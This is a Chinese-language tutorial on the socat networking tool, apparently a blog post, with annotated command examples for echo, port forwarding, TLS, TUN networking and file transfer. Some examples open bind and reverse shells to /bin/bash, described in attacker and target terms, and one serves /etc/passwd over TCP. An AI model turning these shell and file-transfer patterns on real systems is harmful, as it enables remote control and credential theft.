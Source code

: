 

> **事以密成，语以泄败。**




---


### 导航


* [介绍](https://github.com)
* [基本语法](https://github.com)
* [用法示例](https://github.com)
	+ [回显输入](https://github.com)
	+ [回显输入 over TCP/UDP](https://github.com)
	+ [正向连接 shell](https://github.com)
	+ [反向连接 shell](https://github.com)
	+ [端口转发](https://github.com)
	+ [网络服务](https://github.com):[veee加速器](https://youhaochi.com)
	+ [文件传输](https://github.com)
	+ [管道传输](https://github.com)
	+ [加密传输](https://github.com)
	+ [TUN 网络](https://github.com)
* [杂项](https://github.com)




---


### 介绍


**Socat** 是一个功能强大的网络工具（相当于是增强版 netcat），它可以在两个数据流之间建立通道，且支持的数据流类型非常丰富，例如：TCP、UDP、TUN、SOCKS 代理、UNIX 套接字、STDIO 标准输入输出流、PIPE 管道流、OPEN 文件流、EXEC/SHELL/SYSTEM 进程流、OPENSSl 加密流等。




---


### 基本语法



```
socat [OPTION] [,OPTS] [,OPTS]

```

* **ADDRESS\_1** 和 **ADDRESS\_2** 表示两个通信的端点，即数据流。
* **OPTION** 用于设置全局选项，比如单向模式、调试模式、日志级别等。【注：单向模式中的 \-u 表示左流向右，\-U 表示右流向左，不加则表示双向模式。】
* **OPTS** 用于设置数据流的选项（不同类型的数据流对应的选项亦有所区别），常用的选项是 fork、reuseaddr。




---


### 用法示例


#### 1\. 回显输入



```
socat - -	#STDIO STDIO

```

说明：在终端输入什么就输出什么。


![image](https://img2024.cnblogs.com/blog/1503193/202412/1503193-20241224191318122-201307770.png)


#### 2\. 回显输入 over TCP/UDP



```
socat - tcp-listen:1234,fork 	#STDIO TCP	服务端监听1234端口
socat - tcp:127.0.0.1:1234		#STDIO TCP	客户端连接1234端口

socat - udp4-listen:1234,bind=192.168.56.20,fork	#STDIO UDP	服务端仅监听192.168.56.20接口的1234端口
socat - udp4:192.168.56.20:1234						#STDIO UDP	客户端连接1234端口

```

说明：客户端将输入的数据通过 tcp/udp 通道传输给服务端，而服务端又将接收的数据再传输给标准输出。


![image](https://img2024.cnblogs.com/blog/1503193/202412/1503193-20241224191344357-928788121.png)


![image](https://img2024.cnblogs.com/blog/1503193/202412/1503193-20241224191350650-1350264462.png)


#### 3\. 正向连接 shell



```
socat tcp-listen:1234,fork exec:/bin/bash	#TCP EXEC	服务端监听1234端口
socat - tcp:127.0.0.1:1234					#STDIO TCP	客户端连接1234端口

```

说明：服务端将接收到的数据传输给 bash 进程，bash 处理之后将结果返回给客户端的标准输出。,


![image](https://img2024.cnblogs.com/blog/1503193/202412/1503193-20241224191507543-870662294.png)


#### 4\. 反向连接 shell



```
socat - tcp-listen:1234,fork				#STDIO TCP	攻击机监听1234端口
socat EXEC:/bin/bash tcp:127.0.0.1:1234		#EXEC TCP	靶机连接1234端口
#socat - tcp:127.0.0.1:1234					#STDIO TCP	靶机连接1234端口

```

说明：攻击机将输入的数据传输给连接它的靶机，而靶机又将数据传递给了 bash 进程，经其处理之后返回结果到攻击机。【注意：如果有多个靶机同时连接攻击机，那么攻击机的输入会随机被传递给其中一个靶机，而不是同时传递给所有靶机。】


![image](https://img2024.cnblogs.com/blog/1503193/202412/1503193-20241224191522601-194623181.png)


#### 5\. 端口转发



```
socat tcp-listen:1234,fork tcp:127.0.0.1:8080	#TCP TCP

```

说明：将本地监听端口 tcp/1234 接收的数据转发到本地的 tcp/8080 端口。【转发到远端亦行】


![image](https://img2024.cnblogs.com/blog/1503193/202412/1503193-20241224191538690-450780523.png)


#### 6\. 网络服务



```
socat -U tcp-listen:1234,fork open:test.txt		#TCP OPEN

```

说明：将文件内容作为服务响应返回。【注意：此时最好使用\-U单向模式(右向左)，否则请求可能会覆盖文件内容。】


![image](https://img2024.cnblogs.com/blog/1503193/202412/1503193-20241224191552454-227255581.png)


#### 7\. 文件传输



```
socat -U tcp-listen:1234,fork open:/etc/passwd				#TCP OPEN	发送端
socat -u tcp:127.0.0.1:1234 open:./passwd.txt,create		#TCP OPEN	接收端

```

说明：发送端将文件数据传输给连接到监听端口的接收端，接收端又将收到的数据打包到新文件中。【注意单向模式的使用】


![image](https://img2024.cnblogs.com/blog/1503193/202412/1503193-20241224191602046-1873155771.png)


#### 8\. 管道传输



```
echo ok | socat - tcp-listen:1234,fork	#PIPE TCP
#socat - tcp-listen:1234,fork | bash	#TCP PIPE

```

说明：（1）将 echo 输出的数据通过管道传递给连向监听端口的终端；（2）将监听端口接收到的数据传递给 bash 进程处理。


![image](https://img2024.cnblogs.com/blog/1503193/202412/1503193-20241224191611736-708700483.png)


![image](https://img2024.cnblogs.com/blog/1503193/202412/1503193-20241224191618610-350648082.png)


#### 9\. 加密传输



```
socat openssl-listen:8443,cert=ssl-cert.pem,key=ssl-cert.key,verify=0,fork tcp:127.0.0.1:8080	#OPENSSL TCP OPENSSL 服务端
#socat - openssl:127.0.0.1:8443,verify=0	#OPENSSL 客户端

#注：当服务端不是转发给 http 服务时，客户端需要此命令配合使用，示例截图中的 curl 命令拥有 openssl 客户端的功能故示例没有用到该命令。
#注：功能测试时，证书的生成可以使用 make-ssl-cert /usr/share/ssl-cert/ssleay.cnf ssl-cert 命令生成。

```

说明：监听 HTTPS 请求并将其转发到本地的 HTTP 服务。


![image](https://img2024.cnblogs.com/blog/1503193/202412/1503193-20241224191638145-1872039728.png)


#### 10\. TUN 网络



```
socat tcp-listen:1234,fork tun:192.168.1.1/24,up			#TCP TUN	服务端
socat tcp:192.168.56.20:1234 tun:192.168.1.2/24,up			#TCP TUN	客户端

```

说明：所有连接到 TUN 服务端的终端，全都接入了一个自建的 TUN 网络之中，从而实现了异地组网。【在 Linux 中测试是成功的，但是在 Windows 中测试是失败的。】


![image](https://img2024.cnblogs.com/blog/1503193/202412/1503193-20241224191648291-781214960.png)




---


### 杂项


* Socat 官网：[http://www.dest\-unreach.org/socat/](https://github.com)
* Socat for Windows ：[https://github.com/StudioEtrange/socat\-windows](https://github.com)


